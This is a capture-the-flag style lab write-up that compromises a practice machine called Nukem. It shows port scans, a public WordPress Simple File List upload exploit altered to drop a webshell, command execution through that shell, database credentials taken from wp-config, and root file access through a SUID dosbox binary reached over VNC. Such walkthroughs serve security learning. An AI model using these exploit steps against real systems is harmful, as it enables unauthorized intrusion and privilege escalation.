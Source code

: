 # Nukem

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.105
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 18:50 +08
Nmap scan report for 192.168.183.105
Host is up (0.17s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
3306/tcp  open  mysql
5000/tcp  open  upnp
13000/tcp open  unknown
36445/tcp open  unknown
```

RDP is open. Ran a detailed scan as well:

```
$ sudo nmap -p 80,5000,13000 -sC -sV --min-rate 3000 192.168.183.105
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 18:53 +08
Nmap scan report for 192.168.183.105
Host is up (0.18s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.46 ((Unix) PHP/7.4.10)
|_http-server-header: Apache/2.4.46 (Unix) PHP/7.4.10
|_http-title: Retro Gamming &#8211; Just another WordPress site
|_http-generator: WordPress 5.5.1
5000/tcp  open  http    Werkzeug httpd 1.0.1 (Python 3.8.5)
|_http-title: 404 Not Found
13000/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Login V14
```

First thing I took note of was the outdated Wordpress site on port 80.

### Wordpress -> RCE

I ran a `wpscan` on the port 80 application.&#x20;

```
$ wpscan --api-token <API> --enumerate p,t,u --url http://192.168.183.105
```

There were loads of vulnerabilities, but the one that looked the easiest to exploit was the Simple File List RCE:

```
[i] Plugin(s) Identified:

[+] simple-file-list
 | Location: http://192.168.183.105/wp-content/plugins/simple-file-list/
 | Last Updated: 2023-06-08T11:52:00.000Z
 | [!] The version is out of date, the latest version is 6.1.8
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 6 vulnerabilities identified:
 |
 | [!] Title: Simple File List < 4.2.3 - Unauthenticated Arbitrary File Upload RCE
 |     Fixed in: 4.2.3
 |     References:
 |      - https://wpscan.com/vulnerability/365da9c5-a8d0-45f6-863c-1b1926ffd574
 |      - https://simplefilelist.com/
 |      - https://plugins.trac.wordpress.org/changeset/2286920/simple-file-list
 |      - https://packetstormsecurity.com/files/160221/
```

Unauthenticated = good in this case. `searchsploit` shows that there are 2 exploits publicly available:

```
$ searchsploit Wordpress Plugin simple file list
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
WordPress Plugin Simple File List 4.2.2 - Arbitrary File U | php/webapps/48979.py
WordPress Plugin Simple File List 4.2.2 - Remote Code Exec | php/webapps/48449.py
----------------------------------------------------------- ---------------------------------
```

I found that the first one worked better. Within the exploit, I also changed the payload to drop a webshell instead:

<figure><img src="../../../.gitbook/assets/image (2922).png" alt=""><figcaption></figcaption></figure>

We can then run the exploit and confirm that it works:

```
$ python3 48979.py http://192.168.183.105
[ ] File 4345.png generated with password: 7a1538697392c42d7dbfb559c6fb67aa
[ ] File uploaded at http://192.168.183.105/wp-content/uploads/simple-file-list/4345.png
[ ] File moved to http://192.168.183.105/wp-content/uploads/simple-file-list/4345.php
[+] Exploit seem to work.
[*] Confirmning ...

$ curl http://192.168.183.105/wp-content/uploads/simple-file-list/4345.php?cmd=id
uid=33(http) gid=33(http) groups=33(http)
```

Tested loads of ports, and only reverse shells to port 80 work:

<figure><img src="../../../.gitbook/assets/image (1595).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Commander Creds

The `/srv/html/wp-config.php` file contained some creds for the user `commander`:

```php
/** MySQL database username */
define( 'DB_USER', 'commander' );

/** MySQL database password */
define( 'DB_PASSWORD', 'CommanderKeenVorticons1990' );
```

<figure><img src="../../../.gitbook/assets/image (2467).png" alt=""><figcaption></figcaption></figure>

### VNC + Dosbox SUID

I checked the SUID binaries available and found `dosbox` was one of them.

```
[commander@nukem ~]$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/dosbox
```

`dosbox` SUID privilege escalation exploits require a GUI to work, and conveniently, VNC on port 5901 is available on the machine:

```
[commander@nukem ~]$ netstat -tulpn 
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:5901          0.0.0.0:*               LISTEN      401/Xvnc            
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:36445           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:13000           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::3306                 :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::36445                :::*                    LISTEN      - 
```

Also, within the user's directory, there's a `.vnc` file which presumably contains credentials we need:

```
[commander@nukem ~]$ ls -la .vnc
total 20
drwxr-xr-x  2 commander root      4096 Sep 18  2020 .
drwxr-xr-x 11 commander commander 4096 Jul 12 11:03 ..
-rw-r--r--  1 commander root        54 Sep 18  2020 config
-rw-r--r--  1 commander commander 3479 Feb 17 19:27 nukem:1.log
-rw-------  1 commander commander    8 Sep 18  2020 passwd
```

We can transfer the small `passwd` file over to our machine via `base64` encoding. Then, we can port forward VNC via `chisel`. Using `vncviewer`, we can connect to it:

```
$ vncviewer -passwd passwd 127.0.0.1:5901
```

<figure><img src="../../../.gitbook/assets/image (2925).png" alt=""><figcaption></figcaption></figure>

Within the terminal we can run this:

```
dosbox -c 'mount c /' -c "type c:$LFILE"
```

This would spawn a `dosbox` instance (which is basically a cmd.exe instance). Using the `C:` command, we can view the `root` flag:

<figure><img src="../../../.gitbook/assets/image (2937).png" alt=""><figcaption></figcaption></figure>

There's no scrolling on this Dosbox instance, and the handling of control characters is a little inaccurate (so you can't really backspace). Other than that, we have `root` access over the file system and can do whatever we want.&#x20;

Rooted!
